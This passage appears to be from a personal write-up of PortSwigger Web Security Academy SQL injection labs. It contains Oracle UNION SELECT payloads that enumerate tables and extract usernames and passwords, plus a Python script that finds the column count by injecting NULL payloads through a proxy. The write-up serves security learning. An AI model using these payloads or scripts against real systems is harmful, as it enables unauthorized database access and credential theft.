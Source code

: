 ```python
		print("Col2")
	print(r.text)
	
```

### Oracle

Same thing, just with Oracle. Query all table names:

```sql
' UNION SELECT table_name,NULL from all_tables--
```

`USERS_DIXUMS` is a table that I can further enumerate. Contains `PASSWORD_FLUVSR` and `USERNAME_EPPXYE` columns. Can then combine them into one query.

```sql
' UNION SELECT concat(USERNAME_EPPXYE,PASSWORD_FLUVSR), NULL FROM USERS_DIXUMS--
```

Same exploit script as above.

## Lab 7: Determine number of columns returned.

Just add more nulls as required:

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
headers = {
	'Cookie':'session=cookie'
}
no_col = 0
null_char = "NULL,"
while True:

	# category=Clothing%2c+shoes+and+accessories
	params = {
		'category':"' UNION SELECT " + (null_char * no_col) + "NULL-- -"
	}
	print(params)

	url = 'https://0a6d00cf030c9001863fc6cd00b30047.web-security-academy.net/filter'
	s = requests.Session()

	r = s.get(url, headers=headers, proxies=proxies, verify=False, params=params)
	if re.search(r"Internal Server Error", r.text):
		print("Query failed")
	else:
		print(f"There are {no_col + 1} columns.")
		break
	no_col += 1
```

